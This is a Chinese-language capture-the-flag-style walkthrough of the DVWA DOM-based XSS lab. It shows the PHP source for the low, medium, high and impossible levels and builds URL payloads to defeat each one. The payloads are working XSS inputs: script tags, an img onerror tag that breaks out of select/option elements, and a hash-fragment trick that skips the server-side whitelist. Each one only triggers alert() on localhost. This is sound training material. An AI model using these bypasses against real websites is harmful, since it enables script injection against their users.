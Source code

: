 	**XSS(DOM):**使用DOM可以使程序和脚本能够动态访问和更新文档内容、结构及样式。在网站页面有许多元素，当页面达到浏览器时，浏览器会为页面创建一个document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。客户端的脚本程序可以通过DOM动态修改页面内容，从客户端获取DOM中的数据并在本地执行。


## 1、Low
**查看源码**
```php
<?php

# No protections, anything goes

?>
```

直接开干吧。

**实战**<br />直接在url中构造payload
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=<script>alert("XMTX")</script>
```

成功弹窗<br />![image-20210416142238350.png](./assets/1655880301325-141cec2c-742a-4c00-882a-e1770bb838a5.png)


## 2、Medium
**查看源码**
```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

**函数说明**
```
stripos()
定义和用法
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。

语法
stripos(string,find,start)
string	必需。规定被搜索的字符串。
find	必需。规定要查找的字符。
start	可选。规定开始搜索的位置。
```

通过代码我们可以看到对`<script`进行了检测，不过我们可以使用img 标签。

**实战**<br />构造payload
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=<img src=1 onerror=alert("XMTX")>
```

可是没有任何弹窗。

查看前端代码<br />![image-20210416143433774.png](./assets/1655880321239-bc7a45a3-a1d6-444c-b3b4-52053bbe98bc.png)

可以看到是因为包含在`<option>`和`<select>`中我们将其闭合即可，构造payload:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=</option></select><img src=1 onerror=alert("XMTX")>
```
![image-20210416143527562.png](./assets/1655880327440-b0c07f60-f48c-4d62-836b-adda6801abe5.png)


## 3、High
**查看源码**
```php
Unknown Vulnerability Source
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

通过源码可以看到这里事采用了白名单的方式，在这里我们可以采用#来绕过服务器端的操作（此方法仅适用于DOM型）

#是一个浏览器指导字符，该字符后面的的数据不会被传到服务器后端，所以可以通过该符号来绕过后端代码的过滤

**实战**<br />构造payload：
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?#default=<script>alert("XMTX")</script>
```
![image-20210416144000373.png](./assets/1655880341205-bc12a435-420d-4805-9606-073d18ea6fa7.png)


## 4、Impossible

查看源码
```php
<?php# Don't need to do anything, protction handled on the client side?>
```
这个就不说了。
